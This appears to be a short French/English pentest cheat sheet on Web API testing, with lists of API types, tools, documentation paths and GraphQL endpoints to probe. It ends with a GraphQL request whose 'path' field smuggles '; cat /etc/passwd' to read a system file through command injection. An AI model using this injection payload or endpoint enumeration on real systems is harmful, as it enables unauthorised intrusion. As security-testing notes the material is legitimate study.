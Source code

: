 # Web API

## standard type

SOAP
RESTful
GrpahQL

## Data Type

XML
JSON

## common content type:

application/json
application/xml 
application/x-www-form-urlencoded 

## Convention

| Convention | Meaning |
-------------------------
| ":" or "{}" | variables |
| "[]" | optional input |
| "||" | possible values that can be used. |
| "< >" | ex. <find-function> Angle brackets represent a DomString, which is a 16-bit string. |

## tools généralement utilisés pour les tests (hors sécu)

Postman
Client http du même langage de programmation
OWASP Zap

## Doc pour la collecte d'info

* https://www.programmableweb.com/
* shodan

### liste de repertoires pour trouver la doc:

/docs
/api/docs
/documentation
/developers/documentation

### liste de sous domaines pour trouver la doc

dev.
api.

### detect graphQL

/graphql
/v1/graphql
/api/graphql
/v1/api/graphql
Attacking GraphQL   291
/graph
/v1/graph
/graphiql
/v1/graphiql
/console
/query
/graphql/console
/altair
/playground

### exemples

#### exemple type d'injection GraphQL retournant le fichier /etc/passwd

```sh
POST /graphql HTTP/1.1
Host: 192.168.195.132:5000
Accept: application/json
Content-Type: application/json

{"variables": {"scheme": "http",
"path": "/ ; cat /etc/passwd",
"port": 80, "host": "test.com"},
"query": "mutation ImportPaste ($host: String!, $port: Int!, $path: String!, $scheme: String!)
{\n importPaste(host: $host, port: $port, path: $path, scheme: $scheme)
{\n result\n }\n }"}
```
